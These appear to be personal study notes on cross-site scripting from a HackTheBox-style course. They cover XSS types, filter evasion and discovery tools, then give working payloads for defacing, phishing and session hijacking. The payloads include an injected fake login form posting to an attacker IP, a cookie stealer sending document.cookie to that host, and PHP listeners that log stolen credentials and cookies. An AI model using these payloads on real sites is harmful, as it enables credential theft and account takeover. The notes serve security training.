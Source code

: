 ## Intro To XSS

XSS is a type of vulnerability that takes advantage of a lack of user input sanitiszation to write and execute Javascript code. Due to how Javascript works, the XSS is executed on the side that loads the webpage (whether it's a client, somebody who opens a compromised page, or so on)

XSS has a limited scope - it can only execute JavaScript code in the browser. You cannot directly root or get a shell on a box easily with XSS. It can be used to enumerate data, modify webpages, steal cookies, and so on

```
Stored (Persistent) XSS 	The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)

Reflected (Non-Persistent) XSS 	Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)

DOM-based XSS 	Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)
```

## Stored/Persistent XSS

This is the most critical type of XSS. Our playoad gets stored somewhere, and gets retrieved/executed upon visiting the page. If we embed a cookie stealer on a comment page, we can steal cookies of anyone who visits the website.

We can use a test payload (generating an alert) to see if we can execute JavaScript code. This is easy to spot when our exploit works.

```
<script>alert(window.origin)</script>
<script>print()</script>
<script>alert(document.cookie)</script>
```

It's important to note that modern web development uses IFrames to handle user input, which limits the scope of XSS to the iframe, rather than the main web application.

## Reflected XSS

Occurs when our payload reaches the back-end server and gets reflected back to us.

A good example of how to use this is creating a phishing link. We create an exploit that works on our end the one time (ie, grabbing a cookie and sending it to a web server). This creates a GET link, that when clicked, will load the page and execute the XSS. We can view our HTTP history to grab the GET request that worked.

![xss-1](xss-1.png)

```
<script>alert(document.cookie)</script>
```

## DOM XSS

Occurs when JavaScript is used to change the page source through the Document Object Model, or DOM.

DOM XSS has two parts: the source (the object that takes the user input, like an input field or a URL parameter), or a Sink (the actual function that modifies the DOM)

Some common JS functions to modify the DOM are:

```

    document.write()
    DOM.innerHTML
    DOM.outerHTML


    add()
    after()
    append()
```

## Filter Evasion

If the ```<script>``` tag is not allowed, we can find other ways to execute JavaScript, like so:

```
<img src="" onerror=alert(window.origin)>
<img src="" onerror=alert(document.cookie)>
```

## XSS Discovery

Web application culnverability scanners like Nessus, Burp Pro, and ZAP have automated detection for XSS.

XSS Strike, Brute XSS, XSSer are tools that can be used to test for XSS.

We can also use manual payloads, like

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md

https://github.com/payloadbox/xss-payload-list

## XSS Attacks - Defacing

We can use JavaScript through XSS to manipulate HTML elements of the DOM to make it look different.

```

Background Color document.body.style.background
Background document.body.background
Page Title document.title
Page Text DOM.innerHTML

<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
<script>document.title = 'HackTheBox Academy'</script>
<script>document.getElementById("todo").innerHTML = "New Text"</script>


```

## XSS Attacks - Phishing

We can use XSS such that when a target clicks a link, the XSS is activated and sends data somewhere (like writing to a web server).

So, we can include an XSS payload the writes to the DOM when it's executed, creating some elements. When the user submits the login form, it will send a get request to our IP, with the data.

```document.write('<h3>Please login to continue</h3><form action=http://10.10.14.49><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');```

Note in order for this to work, we need to have a listener on our IP address for the specified port. We can use a basic PHP script to handle the requests. We use this XSS payload to create a phishing URL. We then copy the GET request URL of the successful XSS, and throw it at the victim. We will recieve the web traffic with the information.

index.php
sudo php -S 0.0.0.0:80
```
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

## XSS Attacks - Session Hijacking

Blind XSS is a type of XSS where code is executed on a page we do not have access to, such as:

```

    Contact Forms
    Reviews
    User Details
    Support Tickets
    HTTP User-Agent header

```

We can use the previous trick to have XSS that makes calls back to our server. An easy way of doing this is providing a remote script.

```<script src="http://10.10.14.49/exploit.js"></script>```

The core of subject hijacking is similar to phishing, but we have less user input required (ie we steal their cookie via a cookie stealer.)

myBlindXSSscript.js

```
new Image().src='http://10.10.14.49/index.php?c='+document.cookie
```

XSS Payload
```
<script src=http://OUR_IP/script.js></script>
```

index.php
```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
sudo php -S 0.0.0.0:80
<script src=http://10.10.14.87/username></script>
<script src=http://10.10.14.87/password></script>